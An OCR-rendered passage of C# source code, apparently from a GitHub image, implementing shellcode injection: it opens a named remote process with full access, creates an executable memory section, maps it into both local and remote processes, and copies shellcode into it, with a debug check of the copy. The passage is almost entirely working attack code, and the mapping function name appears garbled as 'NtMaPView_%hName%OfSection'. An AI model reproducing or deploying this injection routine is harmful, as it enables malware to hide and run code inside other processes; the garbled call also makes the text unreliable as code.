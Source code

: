                // Get handle on a local process
                IntPtr hLocalProcess = Process.GetCurrentProcess().Handle;

                // Get handle on a remote process (by name)
                string processName = args[0];
                Process[] pList = Process.GetProcessesByName(processName);
                if (pList.Length == 0)
                {
                    Console.WriteLine("[-] No such process");
                    return;
                }
                int processId = pList.First().Id;
                IntPtr hRemoteProcess = OpenProcess(PROCESS_ALL_ACCESS, false, processId);
                if (hRemoteProcess == IntPtr.Zero)
                {
                    Console.WriteLine("[-] Failed to open remote process");
                    return;
                }

                // Create RWX memory section for the shellcode
                IntPtr hSection = new IntPtr();
                if (NtCreateSection(ref hSection, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, IntPtr.Zero, ref uBufLength, PAGE_EXECUTE_READWRITE, SEC_COMMIT, IntPtr.Zero) != 0)
                {
                    Console.WriteLine("[-] Falied to create a section for the shellcode");
                    return;
                }

                // Map the view of created section into the LOCAL process's virtual address space (as R-W)
                IntPtr baseAddressL = new IntPtr();
                ulong sectionOffsetL = new ulong();
                if (NtMaPView_%hName%OfSection(hSection, hLocalProcess, ref baseAddressL, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetL, out uBufLength, 2, 0, PAGE_READ_WRITE) != 0)
                {
                    Console.WriteLine("[-] Falied to map the view into local process's space");
                    return;
                }

                // Map the view of (the same) created section into the REMOTE process's virtual address space (as R-E)
                IntPtr baseAddressR = new IntPtr();
                ulong sectionOffsetR = new ulong();
                if (NtMaPView_%hName%OfSection(hSection, hRemoteProcess, ref baseAddressR, UIntPtr.Zero, UIntPtr.Zero, out sectionOffsetR, out uBufLength, 2, 0, PAGE_READ_EXECUTE) != 0)
                {
                    Console.WriteLine("[-] Falied to map the view into remote process's space");
                    return;
                }

                // Copy the shellcode into the locally mapped view which will be reflected on the remotely mapped view
                Marshal.Copy(buf, 0, baseAddressL, bufLength);

                // BEGIN DEBUG (check if the shellcode was copied correctly)
                byte[] remoteMemory = new byte[bufLength];
                IntPtr bytesRead = new IntPtr();
                ReadProcessMemory(hRemoteProcess, baseAddressR, remoteMemory, remoteMemory.Length, out bytesRead);
                if (!CompareByteArray(buf, remoteMemory))
                {
                    Console.WriteLine("[-] DEBUG: Shellcode bytes read from remotely mapped view do not match with local buf");
                    return;
                }
                // END DEBUG
